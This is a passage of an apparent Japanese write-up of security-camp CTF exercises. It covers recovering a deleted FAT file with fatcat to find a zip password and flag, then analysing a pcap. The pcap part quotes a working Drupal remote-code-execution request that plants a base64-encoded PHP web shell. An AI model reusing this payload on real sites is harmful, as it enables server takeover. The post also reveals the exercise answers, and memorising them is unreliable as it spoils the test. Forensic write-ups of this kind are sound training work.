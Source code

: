 passwordないやん

というわけで気を取り直して `d` オプションで削除されたファイルを見てみます。

```
$ ./tool/fatcat/build/fatcat campfs.bin -d -l /
Listing path /
Directory cluster: 2
f 13/11/2021 14:30:52  _DSC0001.JPG                                       c=3 s=6108843 (5.82585M)
f 13/11/2021 14:30:54  _DSC0003.JPG                                       c=1495 s=7188587 (6.85557M)
f 13/11/2021 14:30:58  _DSC0004.JPG                                       c=3251 s=6729569 (6.41782M)
f 13/11/2021 14:33:20  SECRET.ZIP                                         c=4894 s=6064993 (5.78403M)
f 13/11/2021 14:40:48  ASSWORD.TXT                                        c=6376 s=272 (272B) d
```

`PASSWORD.TXT` が見えます。これは講義で最初の文字が埋められて欠けてしまうやつで `P` が抜けているんでしょう。FATCATの FAT Undelete Tutorial にしたがって、以下のようにするとパスワードのヒントを得ます。

```
$ ./tool/fatcat/build/fatcat campfs.bin -r ASSWORD.TXT
! Trying to read a deleted file, enabling deleted mode
SECRET.ZIPのパスワードは "CLUSTER_(開始クラスタ番号)_LOCK" にしてみました。

クラスタ番号は10進数です。
例えば 0x1234 だった場合は 4660 になりますので
CLUSTER_4660_LOCK

がパスワードになっています。
```

今回だと `4894` がクラスタ番号ですね(`c=`)というわけで無事にZIPのパスワード `CLUSTER_4894_LOCK` が分かりました。
zipを解凍するとフラグが画像に書かれていました。
flag: `ms2021{YOURE_FS_MASTER}`

`FS_MASTER` ではなく Tool master になってしまった...本当にごめんなさい(復習します)

## 講師の方の解説を見て新しく知ったこと

講師の方は真面目に手で解いていたのでうお～申し訳ねえ～と思いながら見ていました。とはいえ講義でやったことをやれば削除されたファイルの復元などはすぐにできそうです。

# DAY2 サイバー攻撃対応入門

任意コード実行がされた攻撃ログを見て持ち出されたデータの中にあるフラグをpcapファイルから見つける問題でした。

## 時間中にやったこと

これはCTFのNetworkっぽいなと思いながらhttpでフィルタをかけてFollow HTTP Streamをして怪しい通信を見つけます。

```
POST /?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo%20PD9waHAgaWYoaXNzZXQoJF9QT1NUWydjJ10pKXsgc3lzdGVtKGJhc2U2NF9kZWNvZGUoc3RyX3JvdDEzKCRfUE9TVFsnYyddKSkpOyB9IA==%20|%20base64%20-d%20%3E%20create.php
```
